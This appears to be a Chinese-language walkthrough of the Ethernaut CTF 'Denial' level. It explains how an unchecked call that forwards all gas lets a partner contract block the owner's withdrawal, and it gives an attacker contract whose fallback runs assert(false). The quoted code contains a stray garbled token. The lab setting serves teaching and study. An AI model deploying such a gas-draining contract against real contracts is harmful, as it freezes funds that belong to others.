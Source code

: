 # 20 Denial
## 创建实例并分析
根据先前的步骤，创建合约实例，其合约地址为`0xeb587746E66F008f686521669B5ea99735b1310B`。本关卡的目的是阻止`owner`提款。我们先看看各角色是什么。

```
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;输入
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }
```
每当用户提款时，会调用`withdraw`函数，取出1%发给`partner`，还有1%发给`owner`。我们能做的就是在`partner`端定义函数，使的发给`owner`的步骤无法进行。

然而，合约中调用的是`call`并附上了所有gas。我们先回顾一下`send`、`call`和`transfer`之间的区别。

- transfer如果异常会转账失败，并抛出异常，存在gas限制
- send如果异常会转账失败，返回false，不终止执行，存在gas限制
- call如果异常会转账失败，返回false，不终止执行，没有gas限制

所以我们的入手点就是消耗光其gas，光失败不会终止后续执行的！

如何消耗呢？那我们就来看看`require`和`assert`。

- `assert`会消耗掉所有剩余的gas并恢复所有的操作
- `require`会退还所有剩余的gas并返回一个值

所以我们似乎可以在assert上下功夫。

## 攻击合约编写
攻击合约很简单，就是默认`assert(false)`并回滚一切操作。

```
pragma solidity ^0.6.0;


contract attacker {

    constructor() public {
    }
    
    fallback() external payable {
        assert(false);
    }

}
```

## 合约交互
部署攻击合约，地址为`0xF8fc486804A40d654CC7ea37B9fdae16D0A5d8a7`。
